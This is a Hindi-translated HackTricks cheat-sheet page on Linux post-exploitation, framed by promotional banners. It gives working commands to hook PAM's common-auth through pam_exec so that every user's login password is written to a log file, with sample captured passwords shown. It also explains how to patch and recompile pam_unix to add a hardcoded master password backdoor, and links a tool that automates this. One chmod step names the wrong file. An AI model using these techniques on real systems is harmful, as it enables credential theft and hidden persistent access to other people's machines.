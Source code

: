 # लिनक्स पोस्ट-एक्सप्लोइटेशन

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ हैकट्रिक्स क्लाउड ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 ट्विटर 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ ट्विच 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 यूट्यूब 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना** चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करना चाहिए? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**द पीएएस फैमिली**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**एनएफटीएस**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक पीएएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **ट्विटर** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [हैकट्रिक्स रेपो](https://github.com/carlospolop/hacktricks) और [हैकट्रिक्स-क्लाउड रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>

## PAM के साथ लॉगऑन पासवर्ड को स्निफ करें

चलो PAM मॉड्यूल को कॉन्फ़िगर करें ताकि हर उपयोगकर्ता द्वारा उपयोग किए जाने वाले पासवर्ड को लॉग करें। यदि आपको पता नहीं है कि PAM क्या है, तो देखें:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

सबसे पहले, हम एक बैश स्क्रिप्ट बनाते हैं जो हर नई प्रमाणीकरण होने पर आवंटित किया जाएगा।
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```
परिवर्तनशीलता चरों केवल PAM विशिष्ट होंगे और `pam_exec.so` मॉड्यूल के माध्यम से उपलब्ध होंगे।

यहां चरों का अर्थ है:

* **$PAM\_USER:** उस उपयोगकर्ता का नाम जो दर्ज किया गया था।
* **$PAM\_RHOST:** रिमोट होस्ट (सामान्यतः IP पता)
* **$(cat -):** यह `stdin` को पढ़ता है, और इसमें स्क्रिप्ट द्वारा पकड़ा गया पासवर्ड होगा
* परिणामों को `/var/log/toomanysecrets.log` पर एक लॉग फ़ाइल में पाइप किया जाता है

फ़ाइल को **सभी उपयोगकर्ताओं को पढ़ने से रोकने** के लिए, इसे पहले से बना लें और `chmod` चलाएं, उदा।:
```bash
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```
अगले, PAM कॉन्फ़िगरेशन फ़ाइल को अपडेट किया जाना चाहिए, `pam_exec` मॉड्यूल का उपयोग स्क्रिप्ट को आह्वानित करने के लिए किया जाएगा।

`/etc/pam.d/` में कई कॉन्फ़िग फ़ाइलें होती हैं, और हम `common-auth` को चुनते हैं।
```
sudo nano /etc/pam.d/common-auth
```
फ़ाइल के नीचे, निम्नलिखित प्रमाणीकरण मॉड्यूल जोड़ें:

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

विकल्पों का निम्नलिखित अर्थ है:

* **optional:** यदि कोई त्रुटि हो तो प्रमाणीकरण विफल नहीं होना चाहिए (यह एक आवश्यक चरण नहीं है)
* **pam\_exec.so:** यह लिविंग ऑफ द लैंड पैम मॉड्यूल है जो विभिन्न स्क्रिप्ट को आमंत्रित कर सकता है
* **expose\_authtok:** यह ट्रिक है जो `stdin` के माध्यम से पासवर्ड पढ़ने की अनुमति देता है
* **quiet:** उपयोगकर्ता को कोई त्रुटि नहीं दिखाएं (यदि कुछ काम नहीं करता है तो)
* अंतिम तर्क पिछले बनाए गए शैल स्क्रिप्ट है

![](<../../.gitbook/assets/image (375).png>)

अंत में, फ़ाइल को क्रियाशील बनाएं:

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`

अब, इसे एक दूसरे मशीन से ssh करके या स्थानीय रूप से लॉगिन करके इसे आज़माएं।

और फिर लॉग फ़ाइल पर नज़र डालें:
```
$ sudo cat /var/log/toomanysecrets.log
Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149
```
### PAM को Backdoor करना

चलो PAM के स्रोत में जाएँ (आपके डिस्ट्रो पर निर्भर करेगा, अपने वर्जन नंबर को लें...) और pam\_unix\_auth.c फ़ाइल में लाइन नंबर 170/180 के आसपास देखें:
```
vi modules/pam_unix/pam_unix_auth.c
```
![](<../../.gitbook/assets/image (651).png>)

इसे निम्नलिखित से बदलें:

![](<../../.gitbook/assets/image (638) (2) (2).png>)

इससे किसी भी उपयोगकर्ता को **"0xMitsurugi" पासवर्ड** का उपयोग करके लॉग इन करने की अनुमति होगी।

`pam_unix_auth.c` को पुनः कंपाइल करें और pam\_unix.so फ़ाइल को बदलें:
```bash
make
sudo cp \
/home/mitsurugi/PAM/pam_deb/pam-1.1.8/modules/pam_unix/.libs/pam_unix.so \
/lib/x86_64-linux-gnu/security/
```
{% hint style="info" %}
आप इस प्रक्रिया को [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) के साथ स्वचालित कर सकते हैं।
{% endhint %}

## संदर्भ

* [https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)
* [https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करना चाहते हैं? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**।

</details>
